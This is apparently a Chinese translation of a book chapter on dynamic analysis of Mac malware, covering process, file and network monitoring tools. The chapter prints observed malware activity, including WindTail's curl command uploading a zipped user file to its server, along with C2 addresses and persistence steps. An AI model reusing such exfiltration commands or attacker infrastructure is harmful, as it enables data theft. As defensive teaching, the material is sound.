




# 第七章：动态分析工具


在前几章中，我们讨论了静态分析方法，这些方法用于检查文件而不需要实际运行它们。然而，通常情况下，直接执行恶意文件以被动观察其行为和操作可能更为高效。特别是当恶意软件作者实施了旨在复杂化或甚至阻止静态分析的机制时，这一点尤为重要，例如加密嵌入的字符串和配置信息，或者在运行时动态加载更多代码。

WindTail 提供了一个说明性的例子。它的指挥与控制服务器的地址（通常是恶意软件分析师试图发现的内容）直接嵌入到恶意软件中，但经过加密。虽然可以手动解码这些加密的地址，因为加密密钥是硬编码在恶意软件中的，但更简单的方法是直接执行恶意软件。然后，使用如网络监控器之类的动态分析工具，我们可以在恶意软件尝试建立连接时被动地发现这些服务器的地址。

本章我们将深入探讨几种动态分析方法，这些方法对于被动观察 Mac 恶意软件样本非常有用，包括进程、文件和网络监控。我们还将讨论你可以使用的工具来执行这些监控。恶意软件分析师通常使用这些工具快速获得恶意样本的能力信息。稍后，这些信息可以成为检测签名的一部分，用于识别其他感染。在第八章中，我们将探索调试的高级动态分析技术。

## 进程监控

恶意软件通常会执行额外的进程来代其完成任务，通过进程监控器观察这些进程的执行，可以为恶意软件的行为和能力提供有价值的见解。这些进程通常只是一些命令行工具，是 macOS 内建的，恶意软件执行这些工具以懒惰地委派所需的操作。例如，一个恶意安装程序可能会调用 macOS 的移动（*/bin/mv*）或复制（*/bin/cp*）工具来持久安装恶意软件。为了调查系统，恶意软件可能会调用进程状态（*/bin/ps*）工具来获取正在运行的进程列表，或调用 `whoami`（*/usr/bin/whoami*）工具来确定当前用户的权限。然后，它可能会通过 */usr/bin/curl* 将此调查结果导出到远程的指挥与控制服务器。通过被动地观察这些命令的执行，我们可以高效地了解恶意软件与系统的互动。

恶意软件还可能生成与原始恶意软件样本一起打包的二进制文件，或者它从远程命令与控制服务器动态下载。例如，一个名为 Eleanor 的恶意软件部署时包含了几个工具来扩展其功能。它预先打包了 Netcat，一个著名的网络工具；Wacaw，一个简单的开源命令行工具，能够从内置的摄像头捕捉图片和视频；以及一个 Tor 工具，用于促进匿名网络通信。我们可以使用进程监视器来观察恶意软件执行这些打包的工具，从而揭示其最终目的，在这种情况下就是设置一个基于 Tor 的后门，能够完全与被感染系统交互并远程监视用户。

需要注意的是，Eleanor 中打包的二进制文件本身并不具备恶意性质。相反，这些工具提供了恶意软件作者希望集成到恶意软件中的功能（例如摄像头录制），但由于时间紧张或技术水平不足，他们可能无法自己编写，或者只是看作一种实现所需功能的高效方法。

另一个嵌入二进制文件打包的恶意软件示例是 FruitFly。由于 FruitFly 是用 Perl 编写的，它在执行低级操作（例如生成合成鼠标和键盘事件，以试图关闭安全提示）方面的能力有限。为了解决这个问题，作者将其与一个嵌入式 Mach-O 二进制文件一起打包，该文件能够执行这些操作。在这种情况下，使用进程监视器可以让我们观察到恶意软件在启动之前将这个嵌入的二进制文件写入磁盘。然后我们可以在任务完成且恶意软件删除文件之前，捕获该二进制文件的副本进行分析。

### 进程监视器工具

除了显示生成的进程的进程标识符和路径外，更全面的进程监视器还可以提供诸如进程层级、命令行参数和代码签名信息等信息。在这些附加信息中，进程参数对于恶意软件分析特别有价值，因为它们往往能揭示恶意软件正在委托执行的具体操作。

不幸的是，macOS 并没有提供一个内建的进程监控工具，包含这些功能。不过不用担心，我已经创建了一个开源工具（取名不太有创意，叫做*ProcessMonitor*），它利用了 Apple 强大的 Endpoint Security 框架，便于动态分析 Mac 恶意软件。ProcessMonitor 将显示进程事件，如`exec`、`fork`和`exit`，以及进程的 ID（`pid`）、完整路径和任何命令行参数。该工具还会报告任何代码签名信息和完整的进程层级结构。为了捕获进程事件，ProcessMonitor 必须以 root 权限在 macOS 的终端中运行。此外，终端必须通过“系统偏好设置”中的“安全性与隐私”面板授予完全磁盘访问权限。有关该工具及其先决条件的更多信息，请参见 ProcessMonitor 的文档。^(2)

让我们简要查看一些 ProcessMonitor 的简化输出，观察它如何监控 Lazarus Group 的 AppleJeus 恶意软件变种的安装程序启动的进程。为了指示 ProcessMonitor 输出格式化的 JSON，我们使用`-pretty`标志执行它（清单 7-1）：

```
# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 1
  "process" : {
    "arguments" : [
      "mv",
      "/Applications/UnionCryptoTrader.app/Contents/
                     Resources/.vip.unioncrypto.plist",
      "/Library/LaunchDaemons/vip.unioncrypto.plist"
    ],
    "path" : "/bin/mv",
    "pid" : 3458,
 "ppid" : 3457
  }
}
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 2
  "process" : {
    "arguments" : [
      "mv",
      "/Applications/UnionCryptoTrader.app/Contents/Resources/.unioncryptoupdater",
      "/Library/UnionCrypto/unioncryptoupdater"
    ],
    "path" : "/bin/mv",
    "pid" : 3461,
    "ppid" : 3457 
  }
}
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 3
  "process" : {
    "arguments" : [
      "/Library/UnionCrypto/unioncryptoupdater"
    ],
    "path" : "/Library/UnionCrypto/unioncryptoupdater",
    "pid" : 3463,
    "ppid" : 3457
  }
}
```

清单 7-1：使用 ProcessMonitor 观察安装程序命令（AppleJeus 变种）

从这些进程及其参数中，我们观察到恶意安装程序执行了以下操作：使用内置的*/bin/mv*工具将一个隐藏的属性列表从安装程序的*Resources/*目录移动到*/Library/LaunchDaemons* 1，使用*/bin/mv*将一个隐藏的二进制文件从安装程序的*Resources/*目录移动到*/Library/UnionCrypto/* 2，然后启动这个二进制文件`unioncryptoupdater` 3。仅通过进程监视器，我们现在知道恶意软件作为一个启动守护进程持续存在，*vip.unioncrypto.plist*，并且我们识别出了作为恶意软件持久化后门组件的二进制文件*unioncryptoupdater*。

进程监控也可以揭示恶意样本的核心功能。例如，WindTail 的主要目的是从感染的系统中收集并窃取文件。虽然我们可以通过静态分析方法（如反汇编恶意软件的二进制文件）来发现这一点，但利用进程监视器要简单得多。清单 7-2 包含了 ProcessMonitor 的简化输出。

```
# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 1
  "process" : {
    "pid" : 1202,
    "path" : "/usr/bin/zip",
    "arguments" : [
 "/usr/bin/zip",
      "/tmp/secrets.txt.zip",
      "/Users/user/Desktop/secrets.txt"
    ], 
    "ppid" : 1173 2
  }
}
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 3
  "process" : {
    "pid" : 1258,
    "path" : "/usr/bin/curl",
    "arguments" : [
      "/usr/bin/curl",
      "-F",
      "vast=@/tmp/secrets.txt.zip",
      "-F",
      "od=1601201920543863",
      "-F",
      "kl=users-mac.lan-user",
      "string2me.com/.../kESklNvxsNZQcPl.php" 4
    ],
    "ppid" : 1173
  }
}
% ps -p 1173 
  PID TTY     TIME      CMD
  1173 ??     0:00.38   ~/Library/Final_Presentation.app/Contents/MacOS/usrnode 5
```

清单 7-2：使用 ProcessMonitor 揭示文件外泄功能（WindTail）

在 ProcessMonitor 的输出中，我们看到恶意软件首先创建了一个文件的 ZIP 档案以进行收集 1，然后使用`curl`命令 3 将该档案外泄。作为附加奖励，传递给`curl`的命令行选项揭示了恶意软件的外泄服务器 string2me.com 4。报告的父进程标识符（`ppid`）提供了一种将子进程与父进程关联的方法。例如，我们利用`ps`工具将报告的`ppid`（1173）2 映射到 WindTail 的持久化组件*Final_Presentation.app/Contents/MacOS/usrnode* 5。

虽然进程监控可以被动而高效地为我们提供宝贵的信息，但它只是全面动态分析方法中的一个组成部分。在下一节中，我们将讨论文件监控，它可以为恶意软件的行为提供互补的洞察。

## 文件监控

*文件监控*是被动地观察主机文件系统中的感兴趣事件。在感染过程以及有效载荷执行过程中，恶意软件可能会访问文件系统并以各种方式进行操作，例如将脚本或 Mach-O 二进制文件保存到磁盘、创建启动项等机制以保持持久性，访问用户文档，可能是为了向远程服务器进行数据外泄。

尽管我们有时可以通过进程监控间接观察到当恶意软件将操作委托给系统实用程序时的文件访问，更多复杂的恶意软件可能完全自包含，不会产生任何额外的进程。在这种情况下，进程监控可能帮助不大。无论恶意软件的复杂性如何，我们通常可以通过文件监控来观察恶意软件的行为。

### fs_usage 工具

我们可以使用 macOS 内置的文件监控工具`fs_usage`来监控文件系统。为了以提升的权限捕获文件系统事件，可以使用`-f filesystem`标志执行`fs_usage`。指定`-w`命令行选项，可以指示`fs_usage`提供更详细的输出。此外，`fs_usage`的输出应该进行过滤；否则，系统文件活动的数量可能会让人不知所措。为此，可以指定目标进程（`fs_usage -w -f filesystem malware.sample`）或将输出通过管道传递给`grep`。

例如，如果我们在运行`fs_usage`的同时执行名为 ColdRoot 的 Mac 恶意软件，我们将观察到它访问名为*conx.wol*的文件，该文件位于它的应用程序包中（列出 7-3）：

```
# **fs_usage -w -f filesystem** 
  access   (___F)   com.apple.audio.driver.app/Contents/MacOS/conx.wol
  open     F=3      (R_____)  com.apple.audio.driver.app/Contents/MacOS/conx.wol
  flock    F=3      
  read     F=3      B=0x92
  close    F=3
```

列出 7-3：使用`fs_usage`观察文件访问（ColdRoot）

正如你所看到的，名为*com.apple.audio.driver.app*的恶意软件打开并读取该文件的内容。让我们来看看这个文件，看看它是否能提供关于恶意软件功能的详细信息（列出 7-4）：

```
% **cat com.apple.audio.driver.app/Contents/MacOS/conx.wol**
{
    "PO": 80,
    "HO": "45.77.49.118",
    "MU": "CRHHrHQuw JOlybkgerD",
    "VN": "Mac_Vic",
    "LN": "adobe_logs.log",
    "KL": true,
    "RN": true,
    "PN": "com.apple.audio.driver"
}
```

列出 7-4：配置文件（ColdRoot）

该文件的内容表明*conx.wol*是恶意软件的配置文件。在其他值之外，它包含了攻击者的命令与控制服务器的端口和 IP 地址。为了弄清楚其他键/值对的含义，我们可以使用反汇编工具查找与字符串`"conx.wol"`的交叉引用。（另外，我们也可以在调试器中执行此操作，我们将在第八章讨论这部分内容。）这样做会让我们找到恶意软件代码中的逻辑，解析并处理该文件中的键/值对。我将把这个作为一个练习留给有兴趣的读者。

`fs_usage` 工具非常方便，因为它是 macOS 内置的。然而，作为一个基本的文件监控工具，它还有许多不足之处。最显著的是，它没有提供关于引发文件事件的进程的详细信息，例如参数或代码签名信息。

### 文件监视器工具

为了解决这些不足，我创建了开源的文件监视器工具。^(3) 与前述的 ProcessMonitor 工具类似，它利用了苹果的 Endpoint Security 框架，并且是为了恶意软件分析而设计的。通过文件监视器，我们可以获得有关实时文件事件的宝贵细节。请注意，像 ProcessMonitor 一样，文件监视器必须以 root 身份在已获得完全磁盘访问权限的终端中运行。

作为示例，我们来看看文件监视器如何轻松揭示 BirdMiner 恶意软件的持久性细节（列表 7-5）。BirdMiner 提供了一个基于 Linux 的加密矿工，由于恶意软件磁盘镜像中包含了 QEMU 模拟器，它能够在 macOS 上运行。当感染的磁盘镜像被挂载并执行应用程序安装程序时，首先会请求用户的凭据。一旦获得 root 权限，它将持久性地安装自己。要了解详情，请查看文件监视器的输出。请注意，这个输出已被简化以提高可读性。例如，它不包含进程的代码签名信息。

```
# FileMonitor.app/Contents/MacOS/FileMonitor -pretty
{
1 "event": "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file": {
    "destination": "/Library/LaunchDaemons/com.decker.plist",
    "process": {
      "pid": 1073,
      "path": "/bin/cp",
      "ppid": 1000
    }
  }
}
{
2 "event": "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file": {
    "destination": "/Library/LaunchDaemons/com.tractableness.plist",
    "process": {
      "pid": 1077,
      "path": "/bin/cp",
      "ppid": 1000,
    }
  }
}
```

列表 7-5：使用文件监视器揭示持久性（BirdMiner）

从文件监视器的输出中，我们可以看到恶意软件（`pid 1000`）生成了 */bin/cp* 工具，用来创建两个文件，这两个文件实际上是 BirdMiner 的两个持久性启动守护进程：*com.decker.plist* 1 和 *com.tractableness.plist* 2。

文件监视器对于揭示不生成额外进程的恶意软件功能特别有用。例如，Yort 恶意软件的安装程序直接放置一个持久性的后门（列表 7-6）。由于它不会执行任何其他外部进程来协助实现持久性，因此进程监视器无法观察到这一事件。另一方面，文件监视器的输出显示了该后门 `.FlashUpdateCheck` 的创建，以及负责创建这个恶意后门的进程。（Yort 的安装程序伪装成 Adobe Flash Player 应用程序，我们通过 `-filter` 命令行标志对此进行关注。）由于文件监视器还包括进程的代码签名信息（或缺少该信息），我们还可以看到该恶意安装程序没有签名。

```
 #**FileMonitor.app/Contents/MacOS/FileMonitor -filter "Flash Player" -pretty**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_WRITE",
  "file" : {
    "destination" : "~/.FlashUpdateCheck",
    "process" : {
      "signing info" : {
        "csFlags" : 0,
        "isPlatformBinary" : 0,
        "cdHash" : "00000000000000000000"
      },
      "path" : "~/Desktop/Album.app/Contents/MacOS/Flash Player",
      "pid" : 1031
    }
  }
}
```

列表 7-6：使用文件监视器揭示持久性后门组件（Yort）

鉴于文件监控工具可以提供大部分进程监控工具捕获的信息，你可能会想，为什么还需要进程监控工具呢？其中一个原因是，某些信息（如进程参数）通常只有进程监控工具才能报告。此外，文件监控工具在默认状态下报告整个系统的文件活动，往往提供过多无关的信息。这可能会让人感到不知所措，尤其是在分析的初期阶段。虽然你可以对文件监控工具进行过滤（例如，FileMonitor 支持`-filter`标志），但这样做需要知道应该过滤哪些内容。相比之下，进程监控工具可能提供恶意样本操作的简洁概览，这反过来可以指导你对文件监控工具的过滤。因此，通常明智的做法是，首先使用进程监控工具观察恶意样本可能产生的命令或子进程。如果你需要更多细节，或者进程监控工具提供的信息不足，就启动文件监控工具。这时，你可以根据恶意软件的名称以及它生成的任何进程来过滤输出，从而保持输出在合理范围内。

## 网络监控

大多数 Mac 恶意软件样本都包含网络功能。例如，它们可能与远程命令与控制服务器进行交互，打开监听套接字以等待远程攻击者连接，甚至扫描其他系统进行感染。命令与控制服务器的交互尤为常见，因为它们允许恶意软件下载额外的有效负载、接收命令或窃取用户数据。例如，名为 CookieMiner 的恶意软件安装程序下载持久化所需的属性列表，以及一个加密货币矿工。一旦安装持久化，恶意软件会窃取密码和身份验证 Cookies，允许攻击者访问用户的账户。

恶意软件总是会包含命令与控制服务器的地址，无论是作为域名还是 IP 地址，都嵌入在其二进制文件或配置文件中，尽管它可能被混淆或加密。我们在分析恶意样本时的主要目标之一是弄清楚它们如何与网络交互。这包括揭示网络端点，如任何命令与控制服务器的地址，以及任何恶意网络流量的详细信息，如任务指令和数据外泄。同时，查找恶意软件可能已打开的监听套接字也很明智，这些套接字可能为远程攻击者提供后门访问权限。

除了揭示恶意软件的功能外，这些信息还使我们能够采取防御性措施，如开发网络级的入侵指示器，甚至与外部实体合作将命令与控制服务器下线，从而阻止感染的传播。

静态分析恶意样本可以揭示其网络功能和端点，但使用网络监控器通常是一个更简单的方式。为了说明这一点，让我们回到本章开始时提到的例子。回想一下，WindTail 的指挥和控制服务器的地址直接嵌入其二进制文件中，但为了防止手动静态分析，这些地址进行了加密。清单 7-7 是来自 WindTail 的反编译代码片段，用于解码和解密指挥和控制服务器的地址。

```
1 r14 = [NSString stringWithFormat:@"%@", [self yoop:@"F5Ur0CCFMO/... OLs="]];

rbx = [[NSMutableURLRequest alloc] init];
2 [rbx setURL:[NSURL URLWithString:r14]];

[[NSString alloc] initWithData:[NSURLConnection sendSynchronousRequest:rbx 
 3 returningResponse:0x0 error:0x0] encoding:0x4];
```

清单 7-7：嵌入的指挥和控制服务器，已加密以阻碍静态分析工作（WindTail）

这个地址 1（存储在`R14`寄存器中）用于创建一个 URL 对象（存储在`RBX`中）2，恶意软件向其发送请求 3。加密和编码旨在复杂化静态分析工作，但借助网络监控器，我们可以轻松恢复该服务器的地址。具体而言，我们可以在虚拟机中执行恶意软件，同时监控网络流量。几乎立刻，恶意软件连接到其服务器，揭示了其地址，*flux2key.com*（图 7-1）。



图 7-1：网络监控器揭示了指挥和控制服务器的地址（WindTail）

有时，你仅通过进程监视器也能发现网络端点，前提是恶意软件将其网络活动委托给系统实用工具。然而，一个专门的网络监控工具能够观察到任何网络活动，即使是像 WindTail 这样的自包含恶意软件。此外，网络监控器还可以捕获数据包，提供关于恶意软件样本的协议和文件外泄能力的宝贵信息。

广义而言，网络监控器有两种类型。第一种类型提供当前网络使用情况的快照，包括任何已建立的连接。这类工具的例子包括`netstat`、`nettop`、`lsof`和 Netiquette。^(4) 第二种类型则提供网络流量的包捕获。这类工具的例子包括`tcpdump`和 Wireshark。^(5) 这两种类型都是动态恶意软件分析中有用的工具。

### macOS 的网络状态监视器

各种网络工具，包括几个内置于 macOS 中的工具，可以提供有关网络当前状态和利用率的信息。例如，它们可以报告已建立的连接（可能是到命令与控制服务器）和监听套接字（可能是等待攻击者连接的交互式后门），以及负责的进程。每个工具都支持大量的命令行标志，用于控制它们的使用、格式化或过滤输出。有关这些标志的信息，请查阅它们的 man 页面。

最著名的工具是`netstat`，它显示网络状态。当与`-a`和`-v`命令行标志一起执行时，它会显示所有套接字的详细列表，包括它们的本地和远程地址、状态（如已建立或监听）以及负责该事件的进程。另一个值得注意的是`-n`标志，它可以通过防止将 IP 地址解析为对应的域名，从而加快网络状态的枚举速度。

更动态的工具是 macOS 的`nettop`，它会自动刷新，显示有关网络的当前信息。除了提供套接字信息，如本地和远程地址、状态以及负责该事件的进程外，它还提供高级统计信息，如传输的字节数。`nettop`启动后，你可以使用 c 和 e 键分别折叠和展开其输出。

`lsof`工具简单地列出打开的文件，在 macOS 中，这些文件包括套接字。以 root 用户身份执行它可以获取系统范围的列表，使用`-i`命令行标志可以将输出限制为与网络相关的文件（套接字）。这将提供套接字信息，如本地和远程地址、状态以及负责该事件的进程。

为了查看`lsof`工具如何派上用场，下面我们用它来检查一个 Mac 恶意软件样本。在 2019 年中期，攻击者通过 Firefox 零日漏洞攻击 macOS 用户，安装名为 Mokes 的恶意软件。对这个样本的分析旨在恢复恶意软件的命令与控制服务器的地址。通过使用网络监控工具，这变得相当简单。在观察到恶意软件的安装程序将一个名为*quicklookd*的二进制文件保存在*~/Library/Dropbox*目录后，`lsof`（与`-i`和`TCP`标志一起执行，以过滤 TCP 连接）揭示了一个指向`185.49.69.210`端口`80`（通常用于 HTTP 流量）的外发连接。如列表 7-8 中缩短的输出所示，`lsof`将此连接归因于 Mokes 的恶意`quicklookd`进程：

```
% **lsof -i TCP**
COMMAND     PID  USER  TYPE      NAME
quicklookd  733  user  IPv4 TCP  192.168.0.128:49291->185.49.69.210:http (SYN
_                                                                        SENT)

% **ps -p 733** 
PID  TTY  CMD
733  ??   ~/Library/Dropbox/quicklookd 
```

列表 7-8：使用`lsof`揭示命令与控制服务器（Mokes）的地址

### 网络礼仪工具

为了补充内建的命令行工具，我创建了开源的 Netiquette 工具。*Netiquette*利用苹果的私有网络统计框架提供了一个简单的 GUI，带有多种选项，旨在促进恶意软件分析。例如，你可以指示它忽略系统进程，按照用户指定的输入进行过滤（比如选择“监听”仅显示处于监听状态的套接字），并将结果导出为 JSON 格式。

让我们看一个例子，说明 Netiquette 如何快速揭示一个复杂恶意软件样本的远程服务器。在 2020 年中期，Lazarus 集团以恶意软件 Dacls 为目标攻击 macOS 用户。执行该恶意软件会导致一个可观察到的网络事件：在端口`443`（通常用于 HTTPS 流量）上尝试连接攻击者的远程服务器，地址为`185.62.58.207`。如图 7-2 所示，Netiquette 轻松地检测到此连接，并将其归因于一个由用户*~/Library*目录下的隐藏文件（*.mina*）支持的进程。这个进程是恶意软件的持久组件。

值得注意的是，Dacls 会尝试连接多个命令与控制服务器，因此当你多次执行恶意软件时，网络监视器中应出现各种连接尝试。这又是为什么你会发现结合静态分析和动态分析技术非常有用的另一个例子。动态分析可以快速识别一个主要的命令与控制服务器，而静态分析则可以揭示额外的备用服务器地址。



图 7-2：使用 Netiquette 发现命令与控制服务器（Dacls）的地址

### 网络流量监视器

某些网络监视工具捕获实际的网络流量，形式为数据包，以进行深入分析。作为恶意软件分析师，我们不仅关注命令与控制服务器的地址，还关注数据包的实际内容。这些内容能为恶意软件的能力提供深刻的见解。网络流量监视工具的例子包括无处不在的`tcpdump`工具和著名的[Wireshark](https://www.wireshark.org/)应用程序。

当从终端运行时，`tcpdump`将持续显示网络数据包流（通常称为*dump*），我们可以使用布尔表达式来过滤这个流。`tcpdump`工具还支持许多命令行选项，如`-A`以 ASCII 格式打印捕获的数据包，以及`host`和`port`选项来仅捕获特定连接，这使其在分析网络流量和理解恶意样本的协议时尤为有用。

例如，我们可以使用`tcpdump`观察到恶意的 InstallCore 恶意软件，它伪装成一个 Adobe Flash Player 安装程序，实际上确实下载并安装了一个合法的 Flash 副本。这种行为奇怪吗？其实不奇怪，因为被诱骗运行恶意软件的用户期待安装 Flash。在清单 7-9 中，`-s0`标志指示`tcpdump`捕获整个数据包，而`-A`将打印出每个数据包的 ASCII 形式。最后，我们还指定我们只关心通过默认以太网接口（`en0`）上端口`80`传输的流量。

```
# tcpdump -s0 -A -i en0 port 80
GET /adobe_flashplayer_e2c7b.dmg HTTP/1.1
Host: appsstatic2fd4se5em.s3.amazonaws.com
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Installer/1 CFNetwork/720.3.13 Darwin/14.3.0 (x86_64)
```

清单 7-9：使用`tcpdump`观察下载（InstallCore）

和其他随 macOS 一起提供的网络工具一样，`tcpdump`支持许多额外的命令行选项。例如，你可以使用`-n`标志指示它不要将名称解析为地址，使用`-XX`标志打印有关数据包的额外信息，包括数据的十六进制转储。后者在分析非 ASCII 流量时特别有用。

另一个网络监控工具 Wireshark 提供了一个用户界面和强大的协议解码功能。使用它时，指定你希望捕获数据包的网络接口。（要从主要的物理网络接口捕获数据包，选择`en0`。）Wireshark 将开始捕获数据包，你可以基于 IP 地址、端口和协议等标准来过滤数据。例如，假设你已经通过静态分析，或使用像 Netiquette 这样的工具动态地确定了恶意软件命令与控制服务器的远程地址。你现在可以应用一个过滤器，只显示发送到这个服务器的所有数据包，使用以下语法：

```
ip.dst == `<address of C&C server>` 
```

图 7-3 显示了 Wireshark 捕获的由恶意软件 ColdRoot 收集的调查数据。从这一捕获中，我们可以轻松地确定恶意软件在初次感染系统时收集和传输的信息。



图 7-3：使用 Wireshark 捕获调查数据（ColdRoot）

同样，记得 FruitFly 是一个相当阴险的 Mac 恶意软件，曾长达十多年未被发现。一旦被捕获，网络监控工具在其分析中发挥了重要作用。例如，通过 Wireshark 我们可以观察到恶意软件响应攻击者的命令与控制服务器，并返回它在感染的机器上安装的位置（图 7-4）。


图 7-4：使用 Wireshark 揭示功能，在这种情况下是返回恶意软件在感染系统中的位置的命令（FruitFly）

另一个例子中，Wireshark 揭示了恶意软件将屏幕截图作为 *.png* 文件外泄（图 7-5）。



图 7-5：使用 Wireshark 揭示功能，在此案例中为返回受感染系统（FruitFly）屏幕截图的命令

想了解更多关于 Wireshark 的信息，包括如何编写捕获和显示过滤器，请参见官方 Wireshark Wiki 页面^(6)。

如果恶意软件生成的网络流量是加密的，比如通过 SSL/TLS 加密，那么会怎样呢？嗯，在这种情况下，网络监视器的默认配置可能帮助不大，因为它无法解密恶意流量。但不用担心——通过利用一个安装了自己根证书的代理，并对网络通信进行“中间人攻击”，就能恢复明文流量。有关这种技术的更多信息，包括代理的具体设置和配置，请参见“SSL 代理”^(7)。

## 接下来

本章我们讨论了恶意软件分析师工具包中至关重要的进程、文件和网络监控器。然而，有时你需要更强大的工具。例如，如果恶意软件的网络流量是端到端加密的，网络监视器可能就派不上用场。复杂的样本可能还会尝试通过反分析逻辑来阻碍动态监控工具的使用。好消息是：我们还有另一种动态分析工具，那就是调试器。在下一章，我们将深入探讨调试的世界，毫无疑问，这是分析即使是最复杂恶意软件的最彻底方法。

## 结束注释
